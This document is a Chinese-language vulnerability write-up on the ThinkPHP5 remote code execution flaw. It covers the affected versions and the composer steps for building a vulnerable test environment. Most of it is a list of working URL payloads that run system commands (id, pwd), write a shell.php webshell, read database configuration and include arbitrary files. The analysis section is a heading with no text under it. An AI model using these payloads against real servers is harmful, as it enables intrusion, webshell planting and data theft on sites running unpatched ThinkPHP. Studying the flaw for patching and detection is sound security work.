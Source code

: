 # ThinkPHP5 远程代码执行1

Author: H3rmesk1t

Data: 2021.08.16

# 漏洞概要
- 本次漏洞存在于 ThinkPHP 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致远程代码执行漏洞的产生
- 漏洞影响版本：
5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30

# 初始配置

获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think tpdemo
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/136afc6c7ce54d68a8fd6f71227d7359.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bash
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.30"
},
```

然后执行 `composer update` 

![在这里插入图片描述](https://img-blog.csdnimg.cn/83651621b82d4bf79a0aca3f728407e8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# 漏洞利用

Payload

```bash
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.0.x
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/742c864af6c245ddbca83f60bcc3be17.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析
